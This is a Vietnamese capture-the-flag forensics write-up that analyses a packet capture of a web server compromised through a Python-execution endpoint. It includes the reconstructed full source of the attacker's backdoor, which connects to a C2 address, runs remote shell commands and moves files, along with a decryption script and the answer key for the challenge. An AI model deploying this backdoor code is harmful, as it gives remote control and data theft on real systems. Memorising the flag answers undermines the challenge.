 # _TOOLPIE_ _(FORENSICS)_
![image](https://github.com/user-attachments/assets/74acfcd7-04ac-4e90-a6f0-1e72c11cbf41)

Bài cho 1 file pcapng, nhiệm vụ là phân tích và trả lời 6 câu hỏi

![image](https://github.com/user-attachments/assets/5d011710-f222-4c85-9b3c-ad3d7a89a701)

Mới đầu vào, mình follow tcp.stream, vì chỉ có 6 luồng nên mình sẽ ngồi phân tích hết

Đầu tiên là stream 0, thấy được 1 GET request từ IP 194.59.6.66 đến 1 HOST: 13.61.177.227, với yêu cả trả về trang chủ của 1 trang web

![image](https://github.com/user-attachments/assets/517d8ada-88df-4070-9636-2e07ac2f9ffa)

Trong phần nav của trang web có 2 liên kết là idex.html và script.html

Kết hợp với đó là mình export objects HTML và save all

![image](https://github.com/user-attachments/assets/901a258e-0c58-47f4-a9d9-2b08550393bf)

Ta thử truy cập vào script.html xem sao

![image](https://github.com/user-attachments/assets/6561c933-466c-45f6-a62e-9a457ef40ef6)

Đây giống như là một trang web cho người dùng thực hiện nhập mã Python rồi nhấn Execute để thực thi

Chưa có gì đặc biệt lắm, nên cùng đi đến với stream thứ 1

Tiếp tục là GET request từ 194.59.6.66 đối với server và ở gần cuối có 1 lệnh GET request tới /script.html

![image](https://github.com/user-attachments/assets/399719a7-8c3a-44be-b21e-828400f69244)

Khi ng dùng nhập mã và thực thi trên trang này thì nó sẽ gửi 1 yêu cầu POST/execute đến server

Và ngay sau đó là stream 3, vẫn tiếp tục là IP đó đã nhập mã và thực thi, nhìn script Python này uy tín vcl :v

![image](https://github.com/user-attachments/assets/644ac6e6-2e7d-4637-ba49-01151c705d35)

Sau đó, stream 4 thì server đã thực hiện gửi `ec2amaz-bktvi3e\administrator` và có những phản hồi từ 1 IP __khác__ là 13.61.7.128. Đến đây mình sẽ có 1 số nhận định sau

- Thứ nhất, IP chịu trách nhiệm cho việc xâm phạm web của câu hỏi 1 đề cập chắc chắn là 194.59.6.66

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66
```

- Thứ hai, Attacker có thể đã gửi payload Python độc hại đến /execute, khiến server chạy mã độc. Nên /execute chính là enpoint giúp trả lời cho câu 2
```
2. What is the name of the endpoint exploited by the attacker?
Answer: execute
```

- Thứ ba, IP 13.61.7.128 rất có thể là máy chủ C2 (Command & Control), nơi attacker có thể điều khiển hệ thống đã bị khai thác và ở câu 4 cũng có hỏi liên quan đến C2 nhưng mình nhập không đúng do thiếu port ( mình sẽ phân tích tiếp đoạn này ở bên dưới)

Tiếp theo, mình sẽ đi phân tích ở đoạn mã Python mà attacker đã gửi đi, đoạn script thực thi bị nén `bz2` sau đó là `marshal.loads` rồi `exec`

Giải nén xong, mình đã đưa về được file `.pyc` nhưng kh thể đưa về mã nguồn `.py` được, sau đó AI có hỗ trợ mình có thể đưa về bytecode

![image](https://github.com/user-attachments/assets/5f897085-d713-415e-9fbe-867ea6dce88e)

Ngồi đọc 1 lúc, thì mình thấy được đáp án cho câu 3

![image](https://github.com/user-attachments/assets/c5c1014f-9c51-4008-b378-fb92f624029a)

```
3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate
```

Vì bytecode quá dài, và mình méo hiểu gì nên nhờ AI đưa về .py theo đúng logic

```python
import os, socket, threading, time, random, string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'

def enc_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return cypher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))

def dec_mes(mes, key):
    if mes == b'': return mes
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return unpad(cypher.decrypt(mes), 16)

def receive_file(k):
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(('13.61.7.218', 54163))
    client2.send(k.encode())
    received = dec_mes(client2.recv(BUFFER_SIZE), k).decode().split(SEPARATOR)
    filename, filesize = received[0], int(received[1])
    client2.send(enc_mes('ok2', k))
    msg = b''
    while len(msg) < filesize:
        msg += client2.recv(BUFFER_SIZE)
    with open(filename, 'wb') as f:
        f.write(dec_mes(msg, k))
    client2.close()

def receive(client, k):
    while True:
        try:
            msg = dec_mes(client.recv(1024), k)
            message = msg.decode()
            if message == 'check':
                client.send(enc_mes('check-ok', k))
            elif message == 'send_file':
                threading.Thread(target=receive_file, args=(k,)).start()
            elif message == 'get_file':
                client.send(enc_mes('ok', k))
                path = dec_mes(client.recv(1024), k).decode()
                with open(path, 'rb') as f:
                    data = enc_mes(f.read(), k)
                client.send(str(len(data)).encode())
                client.recv(1024)
                client.sendall(data)
            elif message:
                answer = os.popen(message).read()
                enc_answer = enc_mes(answer, k)
                client.send(str(len(enc_answer)).encode())
                if client.recv(1024).decode() == 'ok':
                    client.sendall(enc_answer)
        except:
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f"{user}{SEPARATOR}{k}".encode())
            time.sleep(60)

if __name__ == '__main__':
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
    client.send(f"{user}{SEPARATOR}{k}".encode())
    threading.Thread(target=receive, args=(client, k)).start()
```

- Chương trình này là một client kết nối tới một C&C (có địa chỉ IP và cổng cố định: 13.61.7.218:55155), kết hợp với những phân tích trc đó thì đã có đáp án cho câu 4
```
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155
```

Sau khi kết nối tới C2 server xong thì thực hiện:
- Lấy thông tin người dùng thông qua whoami

- Thông tin này được gửi tới server cùng với khóa ngẫu nhiên (user + SEPARATOR + k), k chính là khóa để thực hiện mã hóa AES-CBC như trong script trên. Từ đây có câu trả lời cho câu 5\

![image](https://github.com/user-attachments/assets/2ae51843-4297-4065-b2dc-4718a62a7073)

```
5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq
```

- Dùng AES-CBC để mã hóa dữ liệu gửi đi và giải mã dữ liệu gửi về

Mình sẽ dùng key đó để decrypt dữ liệu gửi đi tại đây là sẽ có đáp án cho câu 6

![toolpie](https://github.com/user-attachments/assets/383869b1-1895-4b44-895b-84dfccb80b73)

Lấy dữ liệu ở dạng Raw, rồi lưu vào 1 file riêng

Script
```python
from Crypto.Cipher import AES

def decrypt_file(input_file: str, output_file: str, key: str):
    # Đọc dữ liệu đã mã hóa từ file
    with open(input_file, "rb") as f:
        ciphertext = f.read()

    # Sử dụng key.encode() làm IV (giống như quá trình mã hóa)
    iv = key.encode()

    # Tạo đối tượng giải mã AES-CBC
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv)

    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)

    # Loại bỏ padding (PKCS7)
    pad_len = decrypted_data[-1]
    decrypted_data = decrypted_data[:-pad_len]

    # Ghi kết quả giải mã ra file
    with open(output_file, "wb") as f:
        f.write(decrypted_data)

    print(f"Giải mã thành công! Đã lưu vào {output_file}")

input_file = "anh"   # File chứa dữ liệu đã mã hóa
output_file = "DONE"  # File để lưu dữ liệu sau khi giải mã
key = "5UUfizsRsP7oOCAq"        # Key giống lúc mã hóa

decrypt_file(input_file, output_file, key)
```

![image](https://github.com/user-attachments/assets/7a9ef9dd-2660-466a-b496-7e8a2add00d7)

Check MD5

![image](https://github.com/user-attachments/assets/80e162e2-24bf-43e7-9ff4-c632ec7ec332)

```
6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```

Tổng hợp đáp án

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66

2. What is the name of the endpoint exploited by the attacker?
Answer: execute

3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-fuscate

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155

5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq

6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```





